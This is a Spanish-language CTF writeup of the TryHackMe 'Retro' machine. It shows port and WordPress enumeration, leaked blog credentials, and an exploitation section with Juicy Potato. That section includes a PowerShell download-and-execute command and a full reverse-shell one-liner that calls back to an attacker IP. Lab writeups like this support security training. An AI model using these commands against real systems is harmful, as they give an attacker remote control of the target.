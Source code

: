 ```yaml
---
VmName: Retro
Creator: 
Link: 
Completado: ✅
Level: Hard
Plataforma: TryHackMe
Release: 
---
```


# Retro - Extra credits

_There are two distinct paths that can be taken on Retro. One requires significantly less trial and error, however, both will work. Please check writeups if you are curious regarding the two paths._

**IP**::  10.10.234.9
**Nombre**::  Retro
**Sistema Operativo**:: 

## Reconocimiento 
En base all resultado de nmap y por RDP con el campo `Product_Version  10.0.14393` corresponde a [[Windows Versiones|Windows 10 (1607)]] 	

### Nmap 

**Puertos abiertos**
```
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
```


### Descubrimiento de directorios

Con diccionario de seclist identificamos un directorio. 

http://10.10.234.9/retro/

```
[May 29, 2022 - 00:30:09 (-04)] exegol-THM loot # python3 /usr/local/lib/python3.10/dist-packages/dirsearch/dirsearch.py -u http://10.10.234.9/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt

  _|. _ _  _  _  _ _|_    v0.4.2.4
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 207628

Output File: /usr/local/lib/python3.10/dist-packages/dirsearch/reports/10.10.234.9/__22-05-29_00-30-43.txt

Target: http://10.10.234.9/

[00:30:44] Starting:
[00:31:34] 301 -  148B  - /retro  ->  http://10.10.234.9/retro/
```


![[Pasted image 20220529003400.png|700]]


### Wordpress Recon

Version de Wordpres 5.2.1

```Bash
whatweb http://10.10.234.9/retro/
http://10.10.234.9/retro/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.10.234.9], JQuery, MetaGenerator[WordPress 5.2.1], Microsoft-IIS[10.0], PHP[7.1.29], Script[text/javascript], Title[Retro Fanatics &#8211; Retro Games, Books, and Movies Lovers], UncommonHeaders[link], WordPress[5.2.1], X-Powered-By[PHP/7.1.29]
```


#### Users 

Wade

### Credenciales


Se identifcan los credenciales en el post de Ready Player One 

![[Pasted image 20220529005722.png]]

Las credenciales nos permiten acceder al Wordpress como tambien por RDP.

|           | USUARIO | PASSWORD |
| --------- | ------- | -------- |
| Wordpress | Wade    | parzival |
| RDP       |         |          |
|           |         |          |

#### WPSCAN 

```
[May 29, 2022 - 00:40:24 (-04)] exegol-THM /workspace # wpscan --url http://10.10.234.9/retro/ --no-banner
[i] Updating the Database ...
[i] Update completed.

[+] URL: http://10.10.234.9/retro/ [10.10.234.9]
[+] Started: Sun May 29 00:41:06 2022

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Microsoft-IIS/10.0
 |  - X-Powered-By: PHP/7.1.29
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.234.9/retro/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.234.9/retro/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.234.9/retro/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.2.1 identified (Insecure, released on 2019-05-21).
 | Found By: Rss Generator (Passive Detection)
 |  - http://10.10.234.9/retro/index.php/feed/, <generator>https://wordpress.org/?v=5.2.1</generator>
 |  - http://10.10.234.9/retro/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.2.1</generator>

[+] WordPress theme in use: 90s-retro
 | Location: http://10.10.234.9/retro/wp-content/themes/90s-retro/
 | Latest Version: 1.4.10 (up to date)
 | Last Updated: 2019-04-15T00:00:00.000Z
 | Readme: http://10.10.234.9/retro/wp-content/themes/90s-retro/readme.txt
 | Style URL: http://10.10.234.9/retro/wp-content/themes/90s-retro/style.css?ver=5.2.1
 | Style Name: 90s Retro
 | Style URI: https://organicthemes.com/retro-theme/
 | Description: Have you ever wished your WordPress blog looked like an old Geocities site from the 90s!? Probably n...
 | Author: Organic Themes
 | Author URI: https://organicthemes.com
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.4.10 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://10.10.234.9/retro/wp-content/themes/90s-retro/style.css?ver=5.2.1, Match: 'Version: 1.4.10'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:11 <===================================================================> (137 / 137) 100.00% Time: 00:00:11

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun May 29 00:41:37 2022
[+] Requests Done: 186
[+] Cached Requests: 5
[+] Data Sent: 46.146 KB
[+] Data Received: 18.542 MB
[+] Memory used: 237.941 MB
[+] Elapsed time: 00:00:31
```

## Explotacion 
La explotacion se probo realizando con JuicyPotato sin exito. 

Se levanta el webserver para compartir la informacion desde la maquina del atacante. 

```Bash
python3 -m http.server
```

Usamos el siguiente comando para descargar los ficheros en el servidor comprometido. 

![[Descarga de Ficheros - PowerShell#Descarga de FIchero]]

**Descarga de ficheros desde PowerShell **

### Explotacion con Juicy Potato

``` PowerShell
potato.exe -l 1340 -p rever.bat -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
.\potato.exe -l 1337 -c "{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.11.72.213/rshell.ps1')" -t *
```



``` Powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.11.72.213",3711);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

```



---

![[Descarga de Ficheros - PowerShell#Descarga de script ps1 y ejecucion]]

### Explotacion 

Es  posible realizarlo con el  cve-2017-0213 es ejecutar y wintoWin!!